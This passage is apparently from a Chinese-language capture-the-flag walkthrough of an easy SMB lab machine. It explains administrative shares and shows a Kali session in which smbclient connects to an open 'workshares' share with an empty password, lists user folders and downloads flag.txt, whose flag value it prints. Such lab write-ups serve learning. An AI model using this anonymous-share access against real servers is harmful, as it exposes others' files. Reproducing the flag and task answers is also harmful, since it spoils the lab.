 在列出的用户里，后面有美元符号$的都是管理员权限的，所以我们只能连接WorkShares这个用户（除了WorkShares之外，其他三个都是默认共享的，可以用自己物理机输入命令net share就知道了）。
此题答案为：WorkShares

## task7

What is the command we can use within the SMB shell to download the files we find? 

我们可以在 SMB shell 中使用什么命令来下载我们找到的文件？

get

## task8

这里有个语法，使用`smbclient \\\\IP\\用户`进行连接，密码为空直接回车。连接进去之后，有两个用户，都看了看，James.P里有flag.txt，使用get命令下载到本地，再使用cat命令查看即可。
具体使用如下：

```powershell
┌──(root㉿kali)-[~]
└─# smbclient \\\\10.129.53.157\\workshares
Password for [WORKGROUP\root]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Mar 29 04:22:01 2021
  ..                                  D        0  Mon Mar 29 04:22:01 2021
  Amy.J                               D        0  Mon Mar 29 05:08:24 2021
  James.P                             D        0  Thu Jun  3 04:38:03 2021

                5114111 blocks of size 4096. 1752070 blocks available
smb: \> cd James.P
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 04:38:03 2021
  ..                                  D        0  Thu Jun  3 04:38:03 2021
  flag.txt                            A       32  Mon Mar 29 05:26:57 2021

                5114111 blocks of size 4096. 1752054 blocks available
smb: \James.P\> get flag.txt
getting file \James.P\flag.txt of size 32 as flag.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
smb: \James.P\> exit
                                                                                  
┌──(root㉿kali)-[~]
└─# cat flag.txt
5f61c10dffbc77a704d76016a22f1664      
```

# Redeemer

## task1 

